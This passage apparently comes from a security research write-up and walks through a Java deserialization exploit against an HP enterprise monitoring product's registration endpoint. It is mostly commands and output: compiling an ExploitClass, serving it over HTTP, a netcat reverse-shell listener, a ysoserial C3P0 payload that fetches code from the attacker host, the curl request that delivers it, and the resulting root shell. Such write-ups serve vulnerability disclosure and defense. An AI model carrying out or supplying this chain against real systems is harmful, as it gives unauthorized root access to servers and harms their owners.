 ```sh
```
> Snippet F: *ExploitClass* code

The *ExploitClass* code needs to be compiled with Java 8:

```/usr/lib/jvm/java-8-openjdk-amd64/bin/javac ExploitClass.java```

We then start a Python server serving the object, as well as a listener to receive the reverse shell (assuming we're attacking a Linux server):

```sh
python -m SimpleHTTPServer 4444 &
nc -lvknp 8888
```

Generate the payload with our newline compiled *ysoserial*:

```sh
java -jar ysoserial-0.0.6-SNAPSHOT-all-c3p0-0.9.1.2.jar C3P0 "http://10.10.10.1:4444/:ExploitClass" > /tmp/payload.ser
```

And finally send the request to the server:

```sh
COOKIE='Cookie: JSESSIONID=xQJJmHDwOQMlAL93PaLPE4PA; LWSSO_COOKIE_KEY=mqx8GAJdW7M8dh5bO99hiZjXAgOHmdteaLsy_c9N77F6n2fFB_XWpe0wDHnpG-x2RbOHNm3H7hjHsmYpRc4PPg2ohEFN7duztvJD0M_u3GUcg_YUJPy5c6ewbqi61FRllh0AoNwAb5K-1fN-uRVK0c8yEVVIkBbxn9vxsCEhofRbZNdtnDQMb3WUeb7yInwRAzfPICWMnE5iuJ_TTyTDlw..;'

curl -i -s -k -X $'POST' \
	-H $'Host: 10.10.10.99' \
	--data-binary @/tmp/payload.ser \
	-H $'Content-Type: application/octet-stream' -H 'Expect:' -H "$COOKIE"  \
   $'https://10.10.10.99/legacy/topaz/sitescope/conf/registration'
```
> Snippet G: *curl* requests to trigger the Java deserialization


This results in the a request for *ExploitClass* received by the Python web server, followed by our reverse shell:

```sh
10.10.10.99 - - [] "GET /ExploitClass.class HTTP/1.1" 200 -
connect to [10.10.10.1] from (UNKNOWN) [10.10.10.99] 55340
whoami
root
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
uname -a
Linux centos7.nat 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
ls
hpbsmd.pid
libwrapper.so
nannyWrapperRunner.sh
wrapper
wrapper.jar
pwd
/opt/HP/BSM/supervisor/wrapper
```

